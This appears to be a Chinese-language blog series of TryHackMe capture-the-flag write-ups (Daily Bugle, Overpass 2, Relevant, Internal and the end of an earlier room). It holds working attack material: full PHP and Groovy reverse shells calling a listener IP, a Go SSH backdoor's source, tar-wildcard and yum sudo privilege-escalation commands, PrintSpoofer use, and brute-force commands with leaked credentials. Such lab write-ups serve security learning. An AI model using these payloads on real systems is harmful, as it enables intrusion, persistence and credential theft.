通过查看/etc/crontab即定时任务可知–刚才描述的backups目录下的backup.sh文件是一个定时任务，该.sh脚本每分钟都会以root身份执行。
在查询 GTFOBins 网站后，我们发现通过tar命令可以利用一个名为–checkpoint的参数，该参数允许在每次归档 X 个文件时（X的默认值为10）显示“进度”消息， –checkpoint还可以与 –checkpoint-action 标志串联使用，–checkpoint-action标志允许在到达检查点（checkpoint）时以二进制或脚本的形式执行某些操作。
结合前述已知信息：由于backups目录下的backup.sh脚本中使用的通配符* 将对 /var/www/html 目录中的所有文件和文件夹执行归档命令，因此我们可以通过在/var/www/html下添加 –checkpoint=1 文件（启用检查点功能）和 –checkpoint-action=exec=xxx 文件（指定要执行的操作，检查点值为1，每归档一个文件都执行指定操作），那么当 tar 处理到以上文件时，相关的文件名将会被有效地视为tar命令的参数–从而执行某些操作。
在/var/www/html目录下创建一个BASH脚本，该脚本的执行结果将创建一个实质为bash副本的 SUID 二进制文件，我们将该脚本命名为newroot.sh：
echo "cp /bin/bash /tmp/nroot && chmod +s /tmp/nroot" > newroot.sh继续在/var/www/html目录下执行命令创建以下两个文件，这两个文件的实际作用是以文件名作为 tar 命令行中的参数:
touch "/var/www/html/--checkpoint=1"
touch "/var/www/html/--checkpoint-action=exec=sh newroot.sh"大约一分钟后，cron 计划作业（即backups目录下的backup.sh脚本）将会以root权限自动运行，从而能够成功创建一个SUID文件（/tmp/nroot），我们可以使用 -p 标志执行该SUID文件，这将允许以该文件的所有者身份（root）执行此二进制文件，进而可以根据此二进制文件的内容切换到root shell。
最后得到root flag
总结
依旧常规nmap扫描，发现110的pop3邮件服务协议以及SMB的139和445端口的开放，于是尝试枚举SMB服务，发现存在匿名用户和mile用户两个共享文件夹，先访问匿名的看是否存在敏感信息结果发现了一些密码列表，由于路子断了，可以想到看看web站点是否有漏洞，扫目录发现存在邮件系统登录页面，于是借用上述密码列表，成功爆破出强口令。
登录进去之后就是找信息或者漏洞点了，结果发现SMB服务重置之后的密码，于是可以成功登录SMB服务了，登录mile用户之后又发现一些信息泄露，发现存在一个CMS站点，继续扫二级目录找到后台登录地址，接着发现存在Cuppa CMS远程文件包含漏洞，于是包含shell文件，反弹得到shell，接着用自带的Python建立一个稳定shell，接着尝试提权，发现常规思路无果，看到计划任务可疑，发现存在tar通配符漏洞提权，凭借参数 配合使用最终拿到root priv
0x09 Daily Bugle
通过 SQLi 入侵 Joomla CMS 帐户，练习破解哈希值并利用 yum 提升您的权限。
初始访问
常规nmap扫描
nmap -T4 -sC -sV -p- 10.10.35.116上图可以看到http-generator（这个可以说是识别当前web服务器指纹信息）写着joomla，那我们尝试搜一下相关利用
search joomla
use scanner/http/joomla_version
run可以看到得到版本等详细信息，这里没想到去网络漫游，搜寻相关漏洞，根据提示去搜索的
一个是在exploit漏洞库可以看到利用方法：这个用的是sqlmap，且需要设置很多参数。
但如果继续搜索就会发现如下项目，其中包含众多CMS的利用脚本，我们直接采用这个
https://github.com/XiphosResearch/exploits
SQL注入
如上图，这里是脚本用法，可以看到它需要你写出目标IP，并且会为你dump出用户和session表
python2 joomblah.py http://10.10.35.116/可以看到这里得到的表明，其中找到了一些用户名，这里我对于这个爆出来的数据理解错了，我以为user这里代表全都是用户名之类的，但当我看到wp的sqlmap结果，我悟了

这完全就是一个表结构而已，因此我们需要爆破后面的hash密码为明文即可（根据提示，使用john）
john暴力破解
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm//写到文件中即可
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt成功得到密码
继续网络漫游，搜寻获取后台之后如何getshell的思路，成功找到
上图位置，可以照着箭头找到，接着利用msf生成php shell，替换上述文件内容

msf获得shell
之后访问文件所在路径即可，同时msf开启监听（记得设置的payload类型一致）
拿到之后发现当前用户是apache，root和home的用户都无权访问，提权也找不到（这里我也是误区，以为提权必须找一些配置的错误，但wp告诉我，可以找相关配置文件，可能会泄露用户密码）
切换用户提权
如上图，这里的php文件，名字可疑，访问发现有数据库配置文件信息，其中包含密码，所以尝试该密码区切换用户之类的
su jjameson//输入密码即可最后拿到flag，接下来看root
sudo 提权
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF
cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF
cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
os.execl('/bin/sh','/bin/sh')
EOF
sudo yum -c $TF/x --enableplugin=y可以看到成功提权
总结
这道题就是靠web站点层层深入，先是nmap扫描的时候，扫出了web站点相关指纹信息：joomla，直接网上找相关exploit
发现存在sql注入，利用相关脚本得到后台账户密码，登录进去，就是找相关功能RCE，幸运的是在设置模版文件的地方发现能自定义PHP文件内容，直接注入msf生成的php反向shell，访问运行，得到shell。之后就是提权，这里是sudo提权，但在使用这个前提是，在web相关配置文件找到了用户的密码信息，得以su 切换用户（因为在此之前是apache身份）之后sudo -l发现yum，找到yum的sudo提权方式，拿到root身份
参考文章
DAILY BUGLE – TRYHACKME WRITE-UP
0x10 Overpass 2 - Hacked
立交桥被黑了！你能分析攻击者的行为并入侵吗？
取证-分析 PCAP
立交桥被黑了！SOC 团队（Paradox，恭喜晋升）在深夜值班时注意到可疑活动，同时查看 shibes，并设法在攻击发生时捕获数据包。你能弄清楚攻击者是如何进入的，并入侵Overpass的生产服务器吗？
注意：虽然这个房间是一个演练，但它需要熟悉工具和 Linux。我建议至少学习基本的 Wireshark 并完成 Linux 基础知识。
PCAP 文件的 md5sum：11c3b2e9221865580295bc662c35c6dc
上图可以看到，上传文件的url为/development/，同时可以看到攻击者使用的payload

上图可以看到攻击者获取到了密码，下图可以看到攻击者建立持久性的方法
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::上面是攻击者获取的相关密码信息（转储影子文件所得），这里我们john爆破一下，发现有四个可以爆破出来
研究-分析代码
现在您已经找到了后门的代码，是时候分析它了。
github搜索即可，如下图可以看到默认密码和硬编码盐
package main
import (
"crypto/sha512"
"fmt"
"io"
"io/ioutil"
"log"
"net"
"os/exec"
"github.com/creack/pty"
"github.com/gliderlabs/ssh"
"github.com/integrii/flaggy"
gossh "golang.org/x/crypto/ssh"
"golang.org/x/crypto/ssh/terminal"
)
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
func main() {
var (
lport uint = 2222
lhost net.IP = net.ParseIP("0.0.0.0")
keyPath string = "id_rsa"
fingerprint string = "OpenSSH_8.2p1 Debian-4"
)
flaggy.UInt(&lport, "p", "port", "Local port to listen for SSH on")
flaggy.IP(&lhost, "i", "interface", "IP address for the interface to listen on")
flaggy.String(&keyPath, "k", "key", "Path to private key for SSH server")
flaggy.String(&fingerprint, "f", "fingerprint", "SSH Fingerprint, excluding the SSH-2.0- prefix")
flaggy.String(&hash, "a", "hash", "Hash for backdoor")
flaggy.Parse()
log.SetPrefix("SSH - ")
privKeyBytes, err := ioutil.ReadFile(keyPath)
if err != nil {
log.Panicln("Error reading privkey:\t", err.Error())
}
privateKey, err := gossh.ParsePrivateKey(privKeyBytes)
if err != nil {
log.Panicln("Error parsing privkey:\t", err.Error())
}
server := &ssh.Server{
Addr: fmt.Sprintf("%s:%v", lhost.String(), lport),
Handler: sshterminal,
Version: fingerprint,
PasswordHandler: passwordHandler,
}
server.AddHostKey(privateKey)
log.Println("Started SSH backdoor on", server.Addr)
log.Fatal(server.ListenAndServe())
}
func verifyPass(hash, salt, password string) bool {
resultHash := hashPassword(password, salt)
return resultHash == hash
}
func hashPassword(password string, salt string) string {
hash := sha512.Sum512([]byte(password + salt))
return fmt.Sprintf("%x", hash)
}
func sshHandler(s ssh.Session) {
command := s.RawCommand()
if command != "" {
s.Write(runCommand(command))
return
}
term := terminal.NewTerminal(s, "$ ")
for {
command, _ = term.ReadLine()
if command == "exit" {
return
}
term.Write(runCommand(command))
}
}
func sshterminal(s ssh.Session) {
cmd := exec.Command("/bin/bash", "-i")
ptyReq, _, isPty := s.Pty()
if isPty {
cmd.Env = append(cmd.Env, fmt.Sprintf("TERM=%s", ptyReq.Term))
f, err := pty.Start(cmd)
if err != nil {
panic(err)
}
go func() {
io.Copy(f, s) // stdin
}()
io.Copy(s, f) // stdout
cmd.Wait()
} else {
io.WriteString(s, "No PTY requested.\n")
s.Exit(1)
}
}
func runCommand(cmd string) []byte {
result := exec.Command("/bin/bash", "-c", cmd)
response, _ := result.CombinedOutput()
return response
}
func passwordHandler(_ ssh.Context, password string) bool {
return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}上图是攻击者使用的hash
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
如上图，识别出该hash加密的可能算法，这里尝试sha512，对应的到 hashcat看一下对应的编号
显然根据上述go后门文件，这里是1710的格式
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05可以看到这里成功破解出盐：november16
攻击-重新进入
现在事件已经调查完毕，Paradox 需要有人再次控制 Overpass 生产服务器。包装盒上有标志，Overpass不能因为格式化服务器而失去！
ssh -oHostKeyAlgorithms=+ssh-rsa james@10.10.115.228 -p 2222接下来就是提权，sudo -l没有结果，尝试suid，如下图，发现.suid_bash可疑文件
file命令查看，如下图：为一个64位的ELF可执行文件。
我们尝试执行，这里需要注意虽然该文件设置了suid权限，但需要你添加-p选项才可以以root身份运行，原因如下
总结
这篇文章，让我们学习的取证分析，得到流量包，在追踪TCP和HTTP流的过程，我们得知了攻击者是如何攻击该站点，并注入了后门。之后我们重新攻击的时候，直接利用该后门，ssh登录上去，身份为James，之后依旧是提权，sudo -l无果，尝试suid提权，找到一个二进制文件存在suid权限，执行的时候添加-p得到root身份。
参考文章
Writeup for TryHackMe Room ‘Overpass 2 - Hacked’
0x11 Relevant
渗透测试要求
您已被分配到一个客户端，该客户端希望在 7 天内发布到生产环境中的环境上执行渗透测试。
Scope of Work 工作范围
客户要求工程师对提供的虚拟环境进行评估。客户要求提供有关评估的最少信息，希望从恶意行为者的角度进行参与（黑匣子渗透测试）。 客户端要求您保护两个标志（未提供位置）作为利用证明：
- User.txt
- Root.txt
此外，客户还提供了以下范围津贴：
- 此服务允许使用任何工具或技术，但我们要求您先尝试手动利用
- 查找并记录发现的所有漏洞
- 将发现的标志提交到仪表板
- 只有分配给计算机的 IP 地址在范围内
- 查找并报告所有漏洞（是的，有多个根路径）
（角色扮演关闭）
我鼓励您将此挑战视为实际的渗透测试。考虑编写一份报告，包括执行摘要、漏洞和漏洞利用评估以及补救建议，因为这将有利于您准备 eLearnSecurity 认证专业渗透测试人员或该领域渗透测试人员的职业生涯。
注意 - 这个房间里没有任何东西需要Metasploit
计算机最多可能需要 5 分钟才能启动所有服务。
*此房间不接受书面记录。
常规扫描
nmap -T5 -p- 10.10.127.72Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-29 10:59 CST
Stats: 0:00:05 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.52% done
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.97% done
Stats: 0:02:51 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 46.66% done; ETC: 11:05 (0:03:15 remaining)
Stats: 0:04:29 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 81.33% done; ETC: 11:05 (0:01:02 remaining)
Nmap scan report for 10.10.127.72
Host is up (0.20s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT STATE SERVICE
80/tcp open http
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
3389/tcp open ms-wbt-server
49663/tcp open unknown
49667/tcp open unknown
49669/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 324.81 seconds可以看到139与445端口开启，尝试枚举SMB
接着连接目标nt4wrksv共享SMB服务
幸运的无密码即可访问，看到当前目录含有密码文件，下载查看
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$接着对这些存活端口进行详细扫描
nmap -p 80,135,139,445,3389,49663,49667,49669 10.10.127.72 -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-29 11:38 CST
Stats: 0:01:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.38% done; ETC: 11:39 (0:00:00 remaining)
Nmap scan report for 10.10.127.72
Host is up (0.20s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-04-29T03:39:53+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2024-04-28T02:58:49
|_Not valid after: 2024-10-28T02:58:49
| rdp-ntlm-info:
| Target_Name: RELEVANT
| NetBIOS_Domain_Name: RELEVANT
| NetBIOS_Computer_Name: RELEVANT
| DNS_Domain_Name: Relevant
| DNS_Computer_Name: Relevant
| Product_Version: 10.0.14393
|_ System_Time: 2024-04-29T03:39:14+00:00
49663/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
49667/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
|_clock-skew: mean: 1h24m00s, deviation: 3h07m52s, median: 0s
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-time:
| date: 2024-04-29T03:39:14
|_ start_date: 2024-04-29T02:59:08
| smb-os-discovery:
| OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
| Computer name: Relevant
| NetBIOS computer name: RELEVANT\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2024-04-28T20:39:18-07:00
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.66 secondsWeb站点探测
尝试扫web站点目录，在49663端口下扫到了隐藏目录
感觉又是我想不到的思路，这里可以看到隐藏目录与我们SMB共享目录名称相同，我们访问看看

可以看到直接访问就能得到文件内容，说明这个用户的SMB共享托管到了web站点了，这里我看有的师傅是先尝试nmap继续扫描看是否存在一些脆弱的易受攻击的服务，也有的直接就知道可以上传反向shell。
SMB上传反向shell
这里我也先跟着师傅们走，等最后回过头来在思考，首先msf生成一个反向shell，由于这是IIS服务器，因此肯定是生成aspx文件
接着连接SMB共享，然后put上传shell，之后浏览器或者curl访问
dir /s /b c:\ | find "user.txt"
dir /s /b c:\ | find "root.txt"
#Windows命令行-- 按文件名查找相关路径 dir /s /b c:\ | find "user.txt"
#使用/b带有 DIR 命令的开关会去除所有多余的信息，仅显示当前目录中的文件夹和文件的名称，而不显示文件大小和时间戳等属性。
#或者直接输入 dir \user.txt /sWindows令牌提权
接着就是windows提权，还是不熟悉。。。。不过这里知道是利用令牌窃取
由上图可知 当前用户似乎启用了 SeImpersonatePrivilege 令牌权限，这意味着我们可以使用令牌模拟来提升权限；接下来我们需要在目标机上执行一个漏洞利用程序–下载PrintSpoofer.exe，并将该exe文件上传到目标机（可以通过SMB服务上传文件）。
上传之后
dir /s /b c:\ | find "PrintSpoofer64.exe"找到exe所在位置，运行即可提权
PrintSpoofer64.exe -i -c cmd总结
常规扫描之后，发现了139与445端口，尝试枚举SMB服务，发现四个共享文件，很可疑，接着扫描web站点目录，但没有结果，却发现四万多的端口也开启了IIS服务，接着尝试扫描该端口对应的目录，结果发现存在SMB共享目录。
接着发现SMB的共享目录允许上传文件（又因为能访问共享目录）会想到上传反向shell，之后访问拿到shell，接着就是Windows提权，whoami /priv发现某些特殊令牌开启了，直接github搜相关的利用工具，成功system权限。
给我的思考就是，在前期nmap扫的时候，就单纯的扫全端口即可，扫出来，在针对性的启用脚本扫描这些端口，可能会很快速。
接着扫目录也没必要陷入误区：非得扫web站点的目录（80端口）一定要都看看。还是得学会google，遇到相关关键问题，不会找办法利用，只能无脑看wp，这很可笑。
参考文章
TryHackMe: Relevant — Walkthrough
Relevant — TryHackMe: Walkthrough
0x12 Internal
渗透测试任务
您已被分配给一位客户，该客户希望对三周后发布到生产环境的环境进行渗透测试。
Scope of Work 工作范围
客户请求工程师对所提供的虚拟环境进行外部、Web 应用程序和内部评估。客户要求提供有关评估的最少信息，希望从恶意行为者的角度进行参与（黑盒渗透测试）。客户要求您确保两个标志（未提供位置）作为利用证据：
- User.txt
- Root.txt
此外，客户还提供了以下范围津贴：
- 确保修改主机文件以反映internal.thm
- 本次合作允许使用任何工具或技术
- 找到并记录所有发现的漏洞
- 将发现的标志提交到仪表板
- 仅分配给您计算机的 IP 地址在范围内
（角色扮演关闭）
我鼓励您将这一挑战视为实际的渗透测试。考虑编写一份报告，其中包括执行摘要、漏洞和利用评估以及补救建议，因为这将有利于您为 eLearnsecurity eCPPT 或作为该领域渗透测试人员的职业生涯做准备。
注意 - 这个房间可以在没有 Metasploit 的情况下完成
常规扫描
nmap -T5 -p- 10.10.188.153
发现只开启了两个端口，先扫一下web站点
gobuster dir -u "http://10.10.188.153/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -t 50wordpress渗透
发现是存在wordpress CMS，上wpscan进行进一步的扫描
wpscan --url http://10.10.188.153/wordpress/首先是简单扫描，发现wp版本：5.4.2，不过google了一番没找到利用的，想着wpscan能扫出啥，发现跟workthrough不一致，加不加token都扫不到这个wp的主题，但workthrough却可以，不理解
//扫描插件漏洞
wpscan --api-token WjvZf12T8mMWrRkopYBhoTCQ5tDZfdk0l0vxqNbEpwU --url http://10.10.188.153/wordpress/ -e vp
//获取wp的用户名
wpscan --api-token WjvZf12T8mMWrRkopYBhoTCQ5tDZfdk0l0vxqNbEpwU --url http://internal.thm/wordpress/ -e u 至于这个wp的用户名，我们就可以信息搜集一手，可以找博客，或者直接在登陆页面，输入一些用户名，看页面回显是否一致，还有就是上述wpscan爆出的用户名
之后尝试利用wpscan爆破密码
wpscan --url http://10.10.188.153/wordpress/ --usernames admin --passwords /usr/share/wordlists/rockyou.txt密码：my2boys
建立shell
如下图找到主题编辑，可以看到能修改PHP文件，上传一个 php_reverse_shell.php即可
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only. Users take full responsibility
// for any actions performed using this tool. The author accepts no liability
// for damage caused by this tool. If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only. Users take full responsibility
// for any actions performed using this tool. If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix). These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.14.79.125'; // CHANGE THIS
$port = 5555; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
//
// Daemonise ourself if possible to avoid zombies later
//
// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies. Worth a try...
if (function_exists('pcntl_fork')) {
// Fork and have the parent process exit
$pid = pcntl_fork();
if ($pid == -1) {
printit("ERROR: Can't fork");
exit(1);
}
if ($pid) {
exit(0); // Parent exits
}
// Make the current process a session leader
// Will only succeed if we forked
if (posix_setsid() == -1) {
printit("Error: Can't setsid()");
exit(1);
}
$daemon = 1;
} else {
printit("WARNING: Failed to daemonise. This is quite common and not fatal.");
}
// Change to a safe directory
chdir("/");
// Remove any umask we inherited
umask(0);
//
// Do the reverse shell...
//
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
printit("$errstr ($errno)");
exit(1);
}
// Spawn shell process
$descriptorspec = array(
0 => array("pipe", "r"), // stdin is a pipe that the child will read from
1 => array("pipe", "w"), // stdout is a pipe that the child will write to
2 => array("pipe", "w") // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
printit("ERROR: Can't spawn shell");
exit(1);
}
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
// Check for end of TCP connection
if (feof($sock)) {
printit("ERROR: Shell connection terminated");
break;
}
// Check for end of STDOUT
if (feof($pipes[1])) {
printit("ERROR: Shell process terminated");
break;
}
// Wait until a command is end down $sock, or some
// command output is available on STDOUT or STDERR
$read_a = array($sock, $pipes[1], $pipes[2]);
$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
// If we can read from the TCP socket, send
// data to process's STDIN
if (in_array($sock, $read_a)) {
if ($debug) printit("SOCK READ");
$input = fread($sock, $chunk_size);
if ($debug) printit("SOCK: $input");
fwrite($pipes[0], $input);
}
// If we can read from the process's STDOUT
// send data down tcp connection
if (in_array($pipes[1], $read_a)) {
if ($debug) printit("STDOUT READ");
$input = fread($pipes[1], $chunk_size);
if ($debug) printit("STDOUT: $input");
fwrite($sock, $input);
}
// If we can read from the process's STDERR
// send data down tcp connection
if (in_array($pipes[2], $read_a)) {
if ($debug) printit("STDERR READ");
$input = fread($pipes[2], $chunk_size);
if ($debug) printit("STDERR: $input");
fwrite($sock, $input);
}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
if (!$daemon) {
print "$string\n";
}
}
?>之后找到404.php文件所在路径，访问即可得到shell
wp-content/themes/twentyseventeen/404.php这里就最头疼了，想着靠自己努力努力，当前是www-data权限，所以需要提权，我一直认为有什么漏洞可以提权，但搞了半天找不到，我以为是提权姿势可能很骚，想不到还是要回归原始：信息搜集
密码泄露提权user
walkthrough这里就是信息搜集，找到了opt目录下的敏感文件，查看发现用户泄露的密码。拿直接su 用户名切换即可
（为何是opt啊。。。）

aubreanna:bubb13guM!@#123同时发现本目录下这个文件，写着此时还在内网运行一个服务器
ssh端口转发拿下内网主机
curl -U aubreanna:bubb13guM!@#123 http://172.17.0.2:8080/由于我们不能访问其内网，因此需要ssh端口转发一下
ssh -f -N -L 4567:172.17.0.2:8080 aubreanna@internal.thm
#根据前述结果，登录密码为：bubb13guM!@#123
#ssh端口转发(本地网卡地址0.0.0.0可省略)：HostB$ ssh -L 0.0.0.0:PortB:HostC:PortC user@HostC
#参数说明
#-C：压缩数据
#-f ：后台认证用户/密码，通常和-N连用，不用登录到远程主机。
#-N ：不执行脚本或命令，通常与-f连用。
#-g ：在-L/-R/-D参数中，允许远程主机连接到建立转发的端口，如果不加这个参数，只允许本地主机建立连接。
#-L : 本地隧道，本地端口:目标IP:目标端口
#-D : 动态端口转发
#-R : 远程隧道
#-T ：不分配 TTY 只做代理用
#-q ：安静模式，不输出 错误/警告 信息发现Jenkins组件，尝试爆破账户密码，猜测用户名就是admin
hydra暴力破解
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 4567 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"成功得到密码，接下来就是执行bash，不过尝试了很多，结果还是walkthrough有效？下去看看为何
好的，这是因为这个脚本控制台就提示了我们只能使用groovy script
发现google搜索即可得到
String host="10.14.79.125";
int port=6666;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();找到下面位置，执行shell即可
密码泄露提权root
拿到shell，依旧信息搜集，发现root用户密码，su切换即可
拿到flag
总结
又给我整emo了，什么时候才能凭借自己做出一个。。。
首先常规扫描，只发现了22、80端口，那毫无疑问扫web站点，同时访问80看看页面是否有什么信息泄露，发现是一个wp站点 ，同时泄露了版本：5.4.2，但似乎没有什么利用思路。接着就是wpscan工具的利用了，利用它可以扫wp版本、可能的用户名、爆破密码、插件漏洞、使用的主题等等。
这里本是可以扫出主题信息的，但我不知道为何扫不出来，随后就是根据wp目录结构，找到登陆页面，利用wpscan暴力破解密码，之后进入后台编辑PHP文件，拿到shell，发现自己是最普通用户，本以为是利用配置漏洞来提权啥的，但还是需要回归本质，做一手信息搜集，这里walkthrough是搜集到了opt目录下存在用户密码泄露，接着su就可以切换用户，但还不是 root，之后发现其内网网段还存在一个web服务，但我们在外网，需要端口转发（在回顾一手ssh端口转发），接着本地可以访问其内网了，然后发现是jenkins组件，hydra暴力破解进入后台，执行shell，监听拿到shell，发现该主机下也有密码泄露，得到root密码。成功提权
总的来说，还是需要有思路和技术的经验积累，虽然我扫出了相关信息，但还是无从下手，之后在回顾一下之前的旅程，看接下来的靶机是否会更进一步吧。
顺便说一下刚开始为何IP访问会出现页面渲染不全的问题，但用域名访问就会正常：
当只使用IP地址访问网站而无法正常渲染的原因可能有以下几点：
1. 虚拟主机配置：许多网站使用虚拟主机技术，在同一台服务器上托管多个网站。当通过域名访问网站时，Web服务器可以根据请求的域名将请求路由到正确的虚拟主机，从而提供正确的网站内容。但是，当您只使用IP地址访问网站时，服务器无法确定您要访问哪个虚拟主机，可能会返回默认的或错误的内容。
2. 域名绑定和重定向：有些网站可能使用域名绑定或重定向来将特定的域名映射到对应的网站目录或URL。当您只使用IP地址访问网站时，缺少了域名信息，可能无法触发正确的域名绑定或重定向操作，导致渲染不全或显示错误的内容。
3. 基于域名的资源加载：网站中的一些资源（例如样式表、JavaScript文件、图像等）可能使用相对路径或基于域名的绝对路径进行引用。当只使用IP地址访问网站时，浏览器无法确定正确的域名，因此无法加载这些资源，导致网站渲染不全或缺少样式和图像等元素。
使用域名访问网站可以解决上述问题，因为域名提供了更多的信息和上下文，使得服务器能够正确地处理请求并提供正确的内容。如果只能使用IP地址访问网站，并且遇到了渲染不全的问题，建议使用域名访问，或者联系网站管理员以获取更多支持和解决方案。